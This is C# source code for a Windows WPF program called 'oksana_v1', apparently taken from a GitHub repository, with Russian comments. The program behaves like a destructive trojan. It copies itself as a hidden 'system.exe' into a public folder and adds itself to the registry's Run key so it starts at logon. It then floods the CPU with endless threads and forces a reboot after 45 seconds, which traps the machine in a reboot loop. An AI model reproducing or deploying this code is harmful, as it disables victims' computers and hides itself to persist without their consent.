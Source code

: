 # oksana_v1
using JCS; using Microsoft.Win32; using System; using System.Diagnostics; using System.IO; using System.Runtime.InteropServices; using System.Threading; using System.Windows;  namespace WpfApplication_OKSANA {     /// &lt;summary>     /// Логика взаимодействия для MainWindow.xaml     /// &lt;/summary>     public partial class MainWindow : Window     {         public static string needPatch = "C:\\Users\\Public\\";           public MainWindow()         {             if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )             {                 autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку                 //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки             }             else                 if (OSVersionInfo.Name == "Windows XP")             {                 needPatch = "C:\\Documents and Settings\\All Users\\";                 autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку                                                                          //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки             }              InitializeComponent();         }            private void Window_Loaded(object sender, RoutedEventArgs e)         {             if (!File.Exists(needPatch + "system.exe"))             {                 try                 {                     File.Copy("system.exe", needPatch + "system.exe");                     File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);                  }                 catch {   }             }             start();         }          public static void sys_sleep()         {             while (true)             {                 Thread s = new Thread(s_b);                 s.Start();             }         }         private static void s_b()         {             int y = 2;             while (true)             {                 y *= y;             }         }            public static void start()         {             Stopwatch sw = new Stopwatch();             sw.Start();             bool b = true;             bool pl = false;             while (b)             {                 if (sw.ElapsedMilliseconds > 20000)                 {                     if (!pl)                     {                         Thread g = new Thread(sys_sleep);                         g.Start();                         pl = true;                     }                 }                 if (sw.ElapsedMilliseconds > 45000)                 {                     DoExitWin(EWX_REBOOT);                     b = false;                 }             }         }                      [StructLayout(LayoutKind.Sequential, Pack = 1)]         internal struct TokPriv1Luid         {             public int Count;             public long Luid;             public int Attr;         }         [DllImport("kernel32.dll", ExactSpelling = true)]         internal static extern IntPtr GetCurrentProcess();         [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]         internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);         [DllImport("advapi32.dll", SetLastError = true)]         internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);         [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]         internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,         ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);         [DllImport("user32.dll", ExactSpelling = true, SetLastError = true)]         internal static extern bool ExitWindowsEx(int flg, int rea);         internal const int EWX_REBOOT = 0x00000002;         internal const string SE_SHUTDOWN_NAME = "SeShutdownPrivilege";         internal const int SE_PRIVILEGE_ENABLED = 0x00000002;         internal const int TOKEN_QUERY = 0x00000008;         internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;          public static Thread thread1;         public static void DoExitWin(int flg)         {             bool ok;             TokPriv1Luid tp;             IntPtr hproc = GetCurrentProcess();             IntPtr htok = IntPtr.Zero;             ok = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);             tp.Count = 1;             tp.Luid = 0;             tp.Attr = SE_PRIVILEGE_ENABLED;             ok = LookupPrivilegeValue(null, SE_SHUTDOWN_NAME, ref tp.Luid);             ok = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);             ok = ExitWindowsEx(flg, 0);         }     }      public class autorun     {         public static bool SetAutorunValue(bool autorun, string npath)         {             const string name = "systems";             string ExePath = npath;             RegistryKey reg;              reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");             try             {                 if (autorun)                     reg.SetValue(name, ExePath);                 else                     reg.DeleteValue(name);                 reg.Flush();                 reg.Close();             }             catch             {                 return false;             }             return true;         }     } }
